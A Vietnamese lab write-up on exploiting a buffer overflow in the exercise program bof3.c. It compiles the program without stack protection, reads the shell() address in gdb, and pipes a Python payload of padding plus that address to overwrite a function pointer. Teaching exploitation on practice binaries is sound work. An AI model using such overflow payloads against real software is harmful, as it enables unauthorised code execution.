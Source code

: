 ### Chi tiết Buffer-overflow trên file bof3.c
***
#### Mục đích của bài này là dùng buffer-overflow để gọi được hàm shell()
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm fget(buf, 133, stdin). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến buf xuống phần biến func() và cái phần được tràn vào biến func() là địa chỉ của hàm shell() thì lúc đó hàm shell() sẽ được gọi


![image](https://github.com/user-attachments/assets/0da879ec-3bb7-4b00-ae7c-0625d878529d)

***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Lấy địa chỉ hàm shell()

  Vào gdb:
  ```
  qdb -q bof3.out  
  ```
  Xem địa chỉ hàm
  ```
  disas shell 
  ```
  ![image](https://github.com/user-attachments/assets/6339981d-f94c-48b4-b45a-dcf75dd62ff5)


  => Địa chỉ hàm shell() là 0x0804845b
* Bước 3: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/f869ff68-d7a2-4920-9bfc-47d3214de52d)



  ta thấy mảng buf chứa tối đa 128 bytes nên ta cần truyền vào input 128 kí
  tự ngẫu nhiên và truyền thêm 4 bytes địa chỉ hàm shell() nữa để đè lên giá trị của biến func() là ta có thể gọi hàm này
* Bước 4: Thực hiện truyền input
  ```
  echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/851ed183-3222-46a9-b808-f7a821951edf)


  => Thành công
